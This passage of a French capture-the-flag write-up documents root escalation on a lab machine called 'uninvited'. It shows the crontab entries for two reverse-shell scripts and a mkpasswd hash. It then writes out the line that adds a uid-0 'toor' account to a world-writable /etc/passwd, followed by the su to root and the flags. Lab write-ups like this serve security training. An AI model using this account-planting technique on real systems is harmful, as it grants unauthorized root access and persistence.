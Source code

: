 ```plain
| |_____|       |   |   |   |   |___  
|_____  |       |   |   |___|    ___| 
 _____| | ||_|| |   |       |   |___  
|_______|_|   |_|___|_______|_______| 

FLAG{DASDGFGPXLCKDEG5D7635CSDAFDIMMJDSUWEQDSADIG}
```

La machine sur laquelle on récupère ce shell dispose de nombreuses interfaces réseau, nous somme donc sur l'hôte.  

Avec la commande *crontab -l* on retrouve les deux scripts chargés des reverse shells :  

```plain
* * * * * /usr/bin/python3 /home/docksec/.secret/c1.py 
* * * * * /usr/bin/python3 /home/docksec/.secret/c2.py
```

net user /add
-------------

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) détecte que le fichier */etc/passwd* est modifiable par tous. Je vais utiliser *mkpasswd* pour avoir un hash correspondant à *toto* :  

```plain
mkpasswd -m sha512crypt 
Mot de passe :  
$6$oCOSAsIhXC.RkvLT$G2KwJNB1m.WM6s2uAF6nmk/Xaas.AAUmUnJHftUkLhrNRSSRNk7PcePrEDucWX92nKKPb4JYnxqm.Jxdr7AGC.
```

Je rajoute alors cette ligne au fichier :  

```plain
toor:$6$oCOSAsIhXC.RkvLT$G2KwJNB1m.WM6s2uAF6nmk/Xaas.AAUmUnJHftUkLhrNRSSRNk7PcePrEDucWX92nKKPb4JYnxqm.Jxdr7AGC.:0:0:toor:/root:/bin/bash
```

Et c'est gagné :  

```plain
$ su toor 
Password:  
root@uninvited:/home/docksec# id 
uid=0(root) gid=0(root) groups=0(root) 
root@uninvited:/home/docksec# cd /root

root@uninvited:~# cat root.txt 
             .__            .__  __             .___  
 __ __  ____ |__| _______  _|___/  |_  ____   __| _/  
|  |  \/    \|  |/    \  \/ |  \   ___/ __ \ / __ |   
|  |  |   |  |  |   |  \   /|  ||  | \  ___// /_/ |   
|____/|___|  |__|___|  /\_/ |__||__|  \___  \____ |   
           \/        \/                   \/     \/ 
FLAG{58DSFJ74RFWESD8J2LKJGHJ87ER4QREWRFLMSTDCMGKAASD}
```

